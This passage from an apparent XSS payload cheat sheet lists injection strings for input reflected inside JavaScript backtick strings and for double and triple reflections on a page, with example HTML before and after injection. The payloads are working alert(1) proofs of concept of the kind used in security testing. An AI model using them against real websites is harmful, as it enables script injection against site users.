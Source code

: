 > Payload number 2 uses when quote escaped by backslash

11. Use when input lands inside backticks delimited strings

```html
${alert(1)}
```

- Example source code

```html
<script>
    var dapos = `REFLECTED_HERE`;
</script>
```

- After input the payload

```html
<script>
    var dapos = `${alert(1)}`;
</script>
```

12. Uses when there is multiple reflections on same page. (Double Reflection)

```html
'onload=alert(1)><svg/1='
'>alert(1)</script><script/1='
*/alert(1)</script><script>/*
```

- After input the payload

```html
<!DOCTYPE html>
<html>
<body>
'onload=alert(1)><svg/1='
...
'onload=alert(1)><svg/1='
</body>
</html>
```

13. Uses when there is multiple reflections on same page. (Triple Reflection)

```html
*/alert(1)">'onload="/*<svg/1='
`-alert(1)">'onload="`<svg/1='
*/</script>'>alert(1)/*<script/1='
```

- After input the payload

```html
<!DOCTYPE html>
<html>
<body>
*/alert(1)">'onload="/*<svg/1='
...
*/alert(1)">'onload="/*<svg/1='
...
*/alert(1)">'onload="/*<svg/1='
</body>
</html>
```
